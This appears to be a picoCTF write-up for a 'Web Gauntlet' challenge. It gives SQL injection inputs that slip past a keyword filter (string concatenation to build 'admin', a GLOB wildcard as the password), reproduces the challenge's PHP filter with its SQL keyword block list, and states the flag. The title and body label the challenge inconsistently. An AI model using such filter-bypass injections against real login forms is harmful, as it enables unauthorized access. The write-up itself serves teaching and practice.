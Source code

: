 # Web Gauntlet - 2

link to the chall - [link](https://play.picoctf.org/practice/challenge/128?page=1&search=web)

---



https://github.com/user-attachments/assets/83e55b7e-9343-4f19-9170-b56eb26515ea




---

Now the part two of the sql challenge.
Here we go again.

On reading this challenge, it had the same filters as that of Web Gauntlet 2, but the limit for characters was reduced.

But the solution for previous challenge will work here as well.

Username - `admi'||'n`
password - `' GLOB '?` or `' GLOB '*`

![img](./22.png)

```php
<?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_30593712914d76105748604617f4006a}
?>
```

the flag is `picoCTF{k3ep_1t_sh0rt_30593712914d76105748604617f4006a}`
